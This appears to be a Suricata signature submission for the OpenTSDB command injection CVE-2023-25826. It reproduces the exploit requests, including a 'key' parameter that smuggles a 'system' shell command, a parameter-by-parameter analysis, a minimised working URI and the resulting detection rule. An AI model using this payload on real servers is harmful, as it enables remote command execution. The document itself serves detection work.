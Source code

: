 # ET Open Submission
### May 6th, 2024
### OpenTSDB arbitrary commands injection（CVE-2023-25826）


## Resources

1. [https://www.synopsys.com/blogs/software-security/opentsdb.html](https://www.synopsys.com/blogs/software-security/opentsdb.html)
2. [https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826](https://github.com/vulhub/vulhub/tree/master/opentsdb/CVE-2023-25826#opentsdb-arbitrary-commands-injectioncve-2023-25826)

### The exploit:

There must be at least one metric existing on the server for RCE. You can create your own metric as well.

Request sent to create a metric called `sys.cpu.nice`
```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

The exploit is ran against the `key` parameter.
```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```

The most important part of this is happening in the http.uri.

`/q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=1&xrange=&y2range=[42:42]&key=%3Bsystem%20%22touch%20/tmp/poc%22%20%22&wxh=1516x644&style=linespoint&baba=lala&grid=t&json`

After some testing with the code, I have found that every parameter is required but it doesn't seem to matter what some of the contents are.

Findings on each parameter:

- start just needs to exist with a number.
- xrange can be empty or non existant
- The smallest the WXH can be is 100x100 and the largest it can be is 32767x32767
- "style" must satisfy the pattern (linespoint|points|circles|dots)
- baba doesn't seem to need to exist.
- json needs to be there.

Example of a modified and working URI.

`/q?start=5&ylabel=1&y2range=[00:00]&style=linespoint&key=%3Bsystem "touch /tmp/poc1" "&wxh=32767x100&grid=2&json&m=sum:sys.cpu.nice`

I think the meat of this sig might fall in the `key=%3Bsystem%20%22<OS Command>%22%20%22` or `key=;system "<OS Command>" "`

Now I swear there is a blog somewhere about catching generic bash commands for PCRE in a sig but I, for the life of me, have no clue where it is now. I would run it for the `key=;system "<OS Command>" "` 

## Signature

```alert http $EXTERNAL_NET any -> $HOME_NET any (msg:"OpenTSDB arbitrary commands injection (CVE-2023-25826)"; flow:established,to_server; http.method; content:"GET"; bsize:3; http.uri; content:"|2f|q|3f|"; startswith; content:"key|3d 3b|system|20 22|"; fast_pattern; content:"|22 20 22|"; distance:3; within:500; content:"m|3d|sum|3a|"; content:"ylabel=";  pcre:"/style|3d|(linespoint|points|circles|dots)/R"; content:"start|3d|"; pcre:"/y2range|3d|\[[0-9]{1,2}:[0-9]{1,2}\]/Ri"; sid:1; rev:1; metadata:attack_target Server, created_at 2024_05_06, deployment Perimeter, deployment Internal, former_category EXPLOIT, signature_severity Major, tag Exploit, updated_at 2024_05_06;)```

[Job Zip](https://github.com/eatinsundip/Suricata/files/15190887/9dfa93c65d3bbd7d.zip) Fix and then ready to send!

[https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4](https://dalton.securitymidwest.net/dalton/job/18e7f569a8f358f4)


## NOTES



